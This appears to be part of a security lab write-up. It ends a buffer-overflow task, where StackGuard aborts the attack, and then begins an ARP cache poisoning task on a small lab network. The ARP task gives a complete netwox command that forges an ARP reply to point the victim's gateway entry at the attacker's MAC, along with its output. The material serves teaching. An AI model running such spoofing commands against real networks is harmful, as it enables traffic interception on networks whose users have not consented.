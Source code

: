 ```
b8097000-b8098000 r-xp b8097000 00:00 0          [vdso]
b8098000-b80b4000 r-xp 00000000 08:01 278007     /lib/ld-2.9.so
b80b4000-b80b5000 r--p 0001b000 08:01 278007     /lib/ld-2.9.so
b80b5000-b80b6000 rw-p 0001c000 08:01 278007     /lib/ld-2.9.so
bfea1000-bfeb6000 rw-p bffeb000 00:00 0          [stack]
Aborted
```
The program was aborted because stack smashing is detected. The attack is successfully prevented by stack guard.


## Attack Lab: Attacks on TCP/IP Protocols

### Lab Environment

Lab networks structure:
```
      Machine 1          Machine 2          Machine 3
    192.168.1.209      192.168.1.111      192.168.1.146
  68:17:29:6c:44:bd  18:cf:5e:f6:c7:41  5c:51:4f:4f:6e:1a
        Ubuntu             Debian            Windows
          |                  |                 |
          |                  |                 |
           ------------------------------------
          |         Gateway 192.168.1.1        |
          |          5c:f9:dd:00:1b:9d         |
           ------------------------------------
```


### Task 1: ARP cache poisoning
We use `Machine 1` as attacker's machine,  `Machine 2` as victim's machine. In this task, we will demonstrate an ARP poisoning attack to update victim's ARP table, pointing gateway's IP to attacker's MAC.

The logic behind is that victim will accept ARP response and update its own ARP table accordingly even if it didn't request it.

We use `netwox` to send fake ARP response and use `wireshark` to sniff packets.

Tool 33 of `netwox` is used and parameters are set as follows:
```
$ netwox 33 --device "wlan0" --eth-src 68:17:29:6c:44:bd --eth-dst 18:cf:5e:f6:c7:41
--eth-type 2054 --arp-op 2 --arp-ethsrc 68:17:29:6c:44:bd --arp-ipsrc 192.168.1.1
--arp-ethdst 18:cf:5e:f6:c7:41 --arp-ipdst 192.168.1.111
Ethernet________________________________________________________.
| 68:17:29:6C:44:BD->18:CF:5E:F6:C7:41 type:0x0806              |
|_______________________________________________________________|
ARP Reply_______________________________________________________.
| this answer : 68:17:29:6C:44:BD 192.168.1.1                   |
| is for      : 18:CF:5E:F6:C7:41 192.168.1.111                 |
|_______________________________________________________________|
```
